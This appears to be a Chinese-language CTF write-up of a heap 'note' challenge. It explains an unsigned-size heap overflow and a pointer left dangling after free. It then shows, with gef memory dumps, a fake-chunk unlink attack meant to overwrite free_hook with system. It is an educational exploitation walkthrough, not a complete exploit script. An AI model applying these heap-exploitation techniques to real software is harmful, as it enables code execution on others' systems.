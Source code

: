 bss 段 ptr `0x00000602120` 管理 malloc chunk 的 ptr，是 ptr 的数组，我们的目的就是把 ptr 改为 ptr-12,然后可以修改 ptr[x] 的值什么的，然后往 `ptr[x]` 指向的地方写东西。 你想想 ptr[x] 改为 `free_hook` 或其他，再通过` edit x`，把内容改为 `system` 函数地址，不就利用啦
### 漏洞
1. 堆溢出  
在添加 note 时，需要设置 `note` 的 `size` ，但是读取的循环变量 i 是**无符号**变量，所以比较时都会转换为无符号变量，那么当我们输入 `size` 为 0 时，`size-1` 会变成一个很大的整数，glibc 根据其规定，会分配 0x20 个字节，但是程序读取的内容却并不受到限制，故而会产生堆溢出。
ps:这个漏洞我自己是看不出的...
2. free 漏洞  
edit 函数,每次都会` malloc 0xa0`,但是 free 的时候没有把指针置为 NULL

### 利用
#### unlink
首先 `new` 三个 `chunk`: 大小分别为 `0x80,0,0x80。`
第二个 `chunk` 虽然申请的大小为0，但是glibc的要求 chunk 块至少可以存储4个必要的字段`(prev_size,size,fd,bk)`，所以会分配 `0x20` 的空间,又因为程序漏洞，所以可以读取任意长度的内容。。
```c
gef➤  x/16gx 0x0000000000602120
0x602120:	0x0000000000861010	0x00000000008610a0 => ptr[0] ptr[1]
0x602130:	0x00000000008610c0	0x0000000000000000 => ptr[2]
0x602140:	0x0000000000000080	0x0000000000000000
0x602150:	0x0000000000000080	0x0000000000000000
0x602160:	0x0000000000000003	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000006f6c6c6568	0x0000000000000000

gef➤  heap chunks
Chunk(addr=0x861010, size=0x90, flags=PREV_INUSE) => chunk 0
    [0x0000000000861010     61 61 61 61 61 61 61 61 61 00 00 00 00 00 00 00     aaaaaaaaa.......] 
Chunk(addr=0x8610a0, size=0x20, flags=PREV_INUSE) => chunk 1
    [0x00000000008610a0     61 61 61 61 61 61 61 61 00 00 00 00 00 00 00 00     aaaaaaaa........]
Chunk(addr=0x8610c0, size=0x90, flags=PREV_INUSE) => chunk 2
    [0x00000000008610c0     62 62 62 62 62 62 62 62 62 62 62 62 62 62 62 62     bbbbbbbbbbbbbbbb]
```
堆块结构：
```c
gef➤  x/32gx 0x861010-0x10
0x861000:	0x0000000000000000	0x0000000000000091 => chunk 0 header 
0x861010:	0x6161616161616161	0x0000000000000061 => ptr[0] chunk 0 fake header1 
0x861020:	0x0000000000602108	0x0000000000602110 => fake fd, fake bk
0x861030:	0x6262626262626262	0x6262626262626262
0x861040:	0x6262626262626262	0x6262626262626262
0x861050:	0x6262626262626262	0x6262626262626262
0x861060:	0x6262626262626262	0x6262626262626262
0x861070:	0x0000000000000060	0x0000000000000000 => fake pre_size | fake ptr[0] chunk''s nextchunk
0x861080:	0x0000000000000000	0x0000000000000000
0x861090:	0x0000000000000000	0x0000000000000021 => chunk 1 header
0x8610a0:	0x6161616161616161	0x0000000000000000 => ptr[1]
0x8610b0:	0x0000000000000000	0x0000000000000091 => chunk 2 header
0x8610c0:	0x6262626262626262	0x6262626262626262 => ptr[2] 
0x8610d0:	0x0000000000000000	0x0000000000000000
0x8610e0:	0x0000000000000000	0x0000000000000000
0x8610f0:	0x0000000000000000	0x0000000000000000
```
其中构造了 `fake pre_size `是为了满足 `unlink` 中的检查
